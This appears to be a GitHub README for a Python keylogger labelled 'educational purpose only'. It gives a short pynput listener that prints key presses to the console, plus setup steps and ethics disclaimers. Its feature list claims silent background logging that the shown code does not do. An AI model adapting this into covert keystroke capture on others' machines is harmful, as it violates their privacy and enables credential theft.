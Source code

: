 Keylogger (Educational Purpose Only)

A simple **Keylogger** written in Python using the `pynput` library to capture and log keystrokes. This project is intended for **educational and ethical use only**, such as learning about input handling and monitoring system behavior.

Disclaimer: This tool is for educational use only. Do **not** use it on systems without **explicit permission**. Unauthorized monitoring is illegal and unethical.

Antivirus Warning
Since keyloggers are often flagged as malicious tools, this script may trigger antivirus software. If using for educational purposes, make sure to run in a controlled or virtual environment.

##Features
- Logs all keystrokes in real time
- Can be run in the background silently
- Supports stopping the keylogger with `ESC` key
- Lightweight and simple Python script

##Sample Code (keylogger.py)
from pynput.keyboard import Key, Listener
def on_press(key):
    print(f"{key} pressed")
def on_release(key):
    if key == Key.esc:
        return False  # Stop listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

## 🛠️ Setup Instructions

# Step 1: Create a virtual environment named 'venv'
python3 -m venv venv

# Step 2: Activate the virtual environment
source venv/bin/activate

# Step 3: Install pynput inside the virtual environment
pip install pynput

# step 4: save the code
nano keylogger.py 

# step 4: Run the script with
python keylogger.py


Note
Do not use this on anyone else's computer.
Respect privacy and ethical boundaries.
Learn responsibly.

##Step-by-Step Instructions
Download the ZIP file from GitHub

Go to the repository page
Click the green Code button
Select Download ZIP
Extract the ZIP file to your preferred folder
